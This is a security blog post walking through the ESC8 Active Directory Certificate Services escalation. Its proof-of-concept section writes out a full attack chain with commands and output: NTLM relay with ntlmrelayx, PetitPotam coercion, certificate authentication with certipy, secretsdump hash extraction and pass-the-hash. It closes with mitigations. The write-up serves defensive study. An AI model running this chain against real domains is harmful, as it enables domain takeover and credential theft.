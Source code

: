 ```yaml
---
title: "ESC8 — Exploiting AD CS Misconfigurations"
date: 2025-10-16 20:00:00 +/-TTTT
categories: [Security]
image: /images/Esc8/escad8.png
tags: [ Ntlm relay, Petitpotam, impacket, certipy]
description: "Walkthrough of the ESC8 AD CS escalation technique, how it works, PoC commands and mitigation recommendations."
---
```


## 1. What is ESC8?

ESC8 is an escalation method that targets high-privileged permissions on a Certificate Authority (CA). It abuses AD CS’s **Web Enrollment** feature. When Web Enrollment endpoints are enabled and the CA is set to automatically *Issue* requests, these endpoints can be vulnerable to NTLM relay attacks. In some scenarios, the relay does not require explicit domain credentials — a coerced machine account can be used.

> Important: ESC8 does **not** rely on misconfigured certificate templates. Instead, it targets the CA server configuration itself. A vulnerable CA meets both conditions:
>
> - Request Disposition: **Issue**
> - Web Enrollment: **Enabled**

---

## 2. Finding a vulnerable Certificate Authority

A tool or scanner reporting something similar to the following indicates the CA is potentially vulnerable:

```yml
Certificate Authorities
[!] Vulnerabilities
ESC8 : Web Enrollment is enabled and Request Disposition is set to Issue
```

---

## 3. Walkthrough 

Below is a concise, step-by-step walkthrough of a proof-of-concept. All IPs, hostnames, domain names and personal usernames have been anonymized.

### Attack scheme


![ESC8 attack scheme](/images/Esc8/esc8.png)


### 3.1 Relay setup — `impacket-ntlmrelayx`

We prepared an NTLM relay server to target the AD CS web enrollment endpoint.

```bash
impacket-ntlmrelayx -t http://<ADCS_WEB_ENROLLMENT>/certfnsh.asp -smb2support --adcs \
                    --template 'DomainController'

# [*] Servers started, waiting for connections
````

### 3.2 Coerce victim machine & trigger authentication (PetitPotam)

To force the target machine to authenticate to our relay, PetitPotam was used.

```bash
$ python3 PetitPotam.py -d <DC_IP> -u <user> -p <password> <TARGET_IP> <DC_IP>

Trying pipe lsarpc
[+] Connected!
[*] Attack worked!
```

In this run, the targeted domain controller machine account (`DC-RED01$`) was coerced to authenticate to the relay. The relay then forwarded the authentication to the AD CS web enrollment endpoint. Because the CA was configured to *Issue* requests, a certificate was generated using the `DomainController` template and saved as `DC-RED01$.pfx`.

### 3.3 Relay output 

```sh
[*] Authenticating against http://<ADCS_WEB_ENROLLMENT> as example/DC-RED01$ SUCCEED
[*] Generating CSR...
[*] GOT CERTIFICATE! ID 628951
[*] Writing PKCS#12 certificate to ./DC-RED01$.pfx
```

### 3.4 Certificate usage — `certipy`

The obtained `.pfx` was used to authenticate to the domain via certificate authentication.

```bash
certipy auth -pfx DC-RED01$.pfx

[*] Using principal: dc-red01$@example.local
[*] Got TGT
[*] Saved credential cache to 'dc-red01.ccache'
```

The process produced a Kerberos ticket-granting ticket (TGT) and saved it to a credential cache.

### 3.5 Post-exploitation: extract secrets and lateral movement

With the credential cache exported, tools like `impacket-secretsdump` were used to extract domain credentials. An example (anonymized) flow:

```bash
export KRB5CCNAME=dc-red01.ccache
impacket-secretsdump dc-red01$@example.local -k -no-pass

# Output: domain accounts and hashes 
```

Extracted NT hashes were later used with an SMB client to authenticate to other hosts (pass-the-hash). Example:

```sh
$ nxc smb -H <NT_HASH> -u AdminAcct -d example.local <TARGET_HOST_IP>
```

---

## 4. Key takeaways

* ESC8 abuses AD CS Web Enrollment endpoints and CA configuration (not certificate templates).
* A coerced machine account authentication can be relayed to AD CS to request certificates for privileged accounts.
* Once a certificate for a privileged machine is obtained, it can be used to request Kerberos tickets, extract secrets and perform lateral movement.

---

## 5. Mitigations and recommendations

To reduce the risk of ESC8 and similar relay-style attacks:

* **Disable NTLM** where possible. If you cannot fully disable it, restrict its use and monitor NTLM authentication on sensitive servers.
* **Restrict certificate templates** so only specific principals (identified service accounts or hosts) can enroll or auto-issue.
* **Remove or restrict HTTP-based enrollment endpoints** if they are not required. Use more secure enrollment methods when possible.
